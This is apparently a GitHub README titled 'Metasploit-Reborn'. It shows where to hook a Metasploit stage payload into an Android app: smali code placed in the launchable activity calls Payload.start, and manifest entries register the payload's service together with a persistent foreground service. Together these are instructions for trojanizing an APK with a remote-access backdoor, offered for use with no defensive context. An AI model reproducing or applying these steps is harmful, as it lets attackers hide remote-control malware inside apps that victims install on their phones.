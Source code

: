 
Metasploit-Reborn Notes :

<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-21-23.jpg" width=750px height=1000px>
</p>
<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-22-40.jpg" width=750px height=500px>
</p>

                                                            Hook Point 

At Launchable Activity

```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V	
new-instance v0, Landroid/content/Intent;
const-class v1, Lcom/example/swagkarna/ForegroundService;
invoke-direct {v0, p0, v1}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V
.local v0, "serviceIntent":Landroid/content/Intent;
const-string v1, "inputExtra"
const-string v2, "Warning!!!.Dont Close This App"
invoke-virtual {v0, v1, v2}, Landroid/content/Intent;->putExtra(Ljava/lang/String;Ljava/lang/String;)Landroid/content/Intent;
invoke-static {p0, v0}, Landroidx/core/content/ContextCompat;->startForegroundService(Landroid/content/Context;Landroid/content/Intent;)V

``` 

At Manifest Level  :

```
Add Permission
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
----------------------------------------------------------------------------------------------------------------------------------------
<service android:enabled="true" android:exported="true" android:name="com.example.swagkarna.ForegroundService"/>
<service android:enabled="true" android:exported="true" android:name="com.metasploit.stage.MainService"/>		
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------


<b>I Love Kali-Linux + Metasploit + Hande-Ercel</b>
